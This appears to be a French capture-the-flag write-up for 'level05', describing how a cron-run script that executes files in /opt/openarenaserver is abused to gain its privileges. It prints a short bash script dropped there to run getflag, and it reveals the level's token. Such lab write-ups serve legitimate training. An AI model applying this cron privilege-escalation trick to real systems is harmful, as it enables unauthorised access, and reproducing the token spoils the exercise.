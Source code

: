 # Rapport CTF - [level05]

1. ### Objectif 1 - Recherche du fichier "mail"
   - **Description :** L'épreuve consistait à rechercher le fichier "mail" pour trouver des informations importantes.
   - **Solution :** Les étapes suivantes ont été réalisées :
     - Utilisation de la commande `find / -type d -name "mail" 2> /dev/null` pour trouver le répertoire contenant les fichiers de courrier.
     - Navigation vers le répertoire `/var/mail`.
     - Consultation du contenu du fichier "level05" avec `cat level05`.

2. ### Objectif 2 - Analyse du contenu du mail
   - **Description :** Analyser le contenu du mail pour comprendre les informations relatives à l'exécution d'un programme.
   - **Solution :** Les étapes suivantes ont été suivies :
     - Lecture du contenu du fichier "level05".
     - Identification de la planification de l'exécution du programme "openarenaserver" toutes les 2 minutes.

3. ### Objectif 3 - Analyse du script "openarenaserver"
   - **Description :** Analyser le script "openarenaserver" pour comprendre son fonctionnement.
   - **Solution :** Les étapes suivantes ont été réalisées :
     - Affichage du contenu du script "openarenaserver" avec `cat /usr/sbin/openarenaserver`.
     - Observation que le script exécute tous les programmes dans le répertoire "/opt/openarenaserver" puis les supprime.
     - Vérification des permissions du script (permissions "rwxr-x---+").

4. ### Objectif 4 - Création d'un programme malveillant
   - **Description :** Créer un programme malveillant pour exploiter les privilèges du script "openarenaserver".
   - **Solution :** Les étapes suivantes ont été effectuées :
     - Création d'un nouveau fichier "test.sh" avec `echo > test.sh`.
     - Édition du fichier "test.sh" avec `vim test.sh` et ajout du code suivant :
       ```bash
       #!/bin/bash

       # Commande dont vous souhaitez obtenir le résultat
       commande="getflag"

       # Chemin complet du fichier de sortie dans /tmp
       fichier_sortie="/tmp/resultat.txt"

       # Exécute la commande et redirige la sortie vers le fichier de sortie
       $commande > $fichier_sortie
       ```
     - Attendre que le script "openarenaserver" exécute "test.sh" toutes les 2 minutes.

5. ### Objectif 5 - Obtention du flag
   - **Description :** Obtenir le flag en exécutant le programme malveillant "test.sh".
   - **Solution :** Les étapes suivantes ont été réalisées :
     - Navigation vers le répertoire "/tmp".
     - Affichage du contenu du fichier "resultat.txt" avec `cat resultat.txt` pour obtenir le token : "viuaaale9huek52boumoomioc".
